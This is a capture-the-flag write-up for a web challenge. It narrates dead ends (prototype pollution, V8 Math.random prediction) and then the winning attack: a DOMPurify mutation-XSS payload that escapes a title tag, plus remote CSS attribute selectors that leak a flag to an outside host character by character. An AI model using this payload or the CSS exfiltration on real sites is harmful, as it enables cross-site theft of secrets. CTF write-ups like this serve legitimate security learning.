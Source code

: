 ## Fancy Text Viewer

This was actually a quite difficult challenge including a lot of different techniques that I've never heard of before.
However we were finally able to solve it after ~18 hours of banging our heads against it and still were able to score second blood on it, which I'm quite proud of.

### The first few hours

#### The cursed PP

The first few hours consisted of us banging our heads against the `toLowerCase`-Middleware because it seemingly allowed to inject something into the `__proto__` object. So the idea was to use this to
pollute the prototype object 

```js
app.use((req, res, next) => {
    for (const key in req.query) {
        let value = req.query[key];
        delete req.query[key];
        req.query[key.toLowerCase()] = value;
    }
    next();
});
```

However, instead of following the PP-primitive

```js
// we control a,b and c

var obj = {};
obj[a][b] = c
```

We only have the following. It looks similar but is not enough for PP:

```js
// we control a and b

var obj = {};
obj[a] = b
```

#### The you-have-thought-too-far-vector

At some point I googled to find out if `Math.random()` was cryptographically secure and it turns out it is not.
It has even been predictable to the point that you could reconstruct the seed and previous values given only a handful of values.
[This](https://github.com/d0nutptr/v8_rand_buster) github repo actually cracks random numbers generated by v8 that have been put through a function
such as `Math.floor(CONST * Math.random())`, which is exactly what we have in our app:

```js
function randomstring(length) {
    const chars =
        "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ";
    let result = "";
    for (let i = 0; i < length; i++) {
        result += chars[Math.floor(Math.random() * chars.length)];
    }
    return result;
}

function randomhexstring(length) {
    const chars = "0123456789abcdef";
    let result = "";
    for (let i = 0; i < length; i++) {
        result += chars[Math.floor(Math.random() * chars.length)];
    }
    return result;
}
```

As we have access to `randomhexstring`, because it is used as the colors in the css, I thought it should be possible to reconstruct the
admin password that is built before using the same function:

```js
const ADMIN_PASSWORD = randomstring(64);

app.get("/view", (req, res) => {
    const content = req.query.content;
    const clrs = [];
    for (let i = 0; i < 4; i++) {
        clrs.push("#" + randomhexstring(6));
    }
    res.render("view", { content, clrs });
});
```

I still feel robbed that this was not the solution - it would have been kind of neat. Apparently however, the `Math.random()` function has been improved to the point
to not be vulnerable to this attack anymore.

### The Tip

Finally a tip rolled in that talked about the `sharedby`-parameter in the  `/`-endpoint. It also said something about `CSS>XSS`. babba from our team gave out the hint that
it must be some kind of `CSS data exfiltration` in combination with `mXSS` (mutation XSS).

### The Solution

It became clear that we would need to send the bot to the `/`-endpoint and perform some kind of XSS on the `sharedby` parameter for reflected XSS.
Hoever, the sharedby parameter is only reflected inside of a `<title>`-tag, which puts the browser into a mode of interpreting the content as plain-text instead of html. 
The next few hours were dedicated to escaping the `<title>`-tag. The biggest problem was the regex that robbed us of the slash-symbol `/`.

```
function sanitize(str) {
    str = str.replace(/[^(0-Z. )]/g, "");
    return DOMPurify.sanitize(str);
}
```

A lot of trial and error later, I stumbled across [this](https://x.com/XssPayloads/status/1337275431645540352) twitter post. After playing around with it for a while, what stuck was:

```xml
<MATH><MTEXT><TABLE ID=2><TABLE><SVG><TITLE><MGLYPH><TABLE ID=BLABLI><STYLE>@IMPORT "URL(REDIRECT?URL=x.x.x.x)
```

`DOMPurify` would remove any `<script>`-tag you throw at it but allows for `<style>`-tags, we just needed a way to escape the `<title>`-tag jail. `DOMPurify` mutates our input (for example, it closes unclosed tags and sometimes shuffles around some of the tags). However, it also gets confused about the different namespaces like `<MATH>` and `<HTML>`, which is our chance here. By providing the payload as above, the `<table>` is moved into the `<body>`-tag, where the `<style>`-tag is actually applied as such. 

### The Exfiltration

The template for index.html contains the following snippet:

```html
<% if (flag) { %>
    <p>Oh? You seem to have a flag! You can view it <a href="view?content=<%- flag %>">here</a>!</p>
<% } %>
```

In order to steal the flag, we need to send the bot to `index.html` with our reflected html injection. Then, the import statement should load a `.css` file that we provide remotely.
That `.css` file in itself, loads a "background image" depending on the value it encounters in the flag. The following is a snippet from the served `.css` file:

```css
a[href^="view?content=0"]{
        background: url(http://x.x.x.x:30000/0);
    }
a[href^="view?content=1"]{
        background: url(http://x.x.x.x:30000/1);
    }
a[href^="view?content=2"]{
        background: url(http://x.x.x.x:30000/2);
    }
a[href^="view?content=3"]{
        background: url(http://x.x.x.x:30000/3);
    }
a[href^="view?content=4"]{
        background: url(http://x.x.x.x:30000/4);
    }
a[href^="view?content=5"]{
        background: url(http://x.x.x.x:30000/5);
    }
a[href^="view?content=6"]{
        background: url(http://x.x.x.x:30000/6);
    }
a[href^="view?content=7"]{
        background: url(http://x.x.x.x:30000/7);
    }
...
```

Some manual labor was necessary to continuously update the `.css` file and send the bot again. This could have been automated but I just did by hand instead.
So the payload finally, that we sent the bot to repeatedly was:

`http://127.0.0.1:4444/?sharedby=<MATH><MTEXT><TABLE ID=2><TABLE><SVG><TITLE><MGLYPH><TABLE ID=BLABLI><STYLE>@IMPORT "URL(REDIRECT?URL=x.x.x.x)"`


One last thing was that we couldn't import the url directly, because we didn't have a slash. This meant that we couldnt provide the `http://`-protocol identifier.
In order to circumvent this, we abused the `/redirect`-endpoint.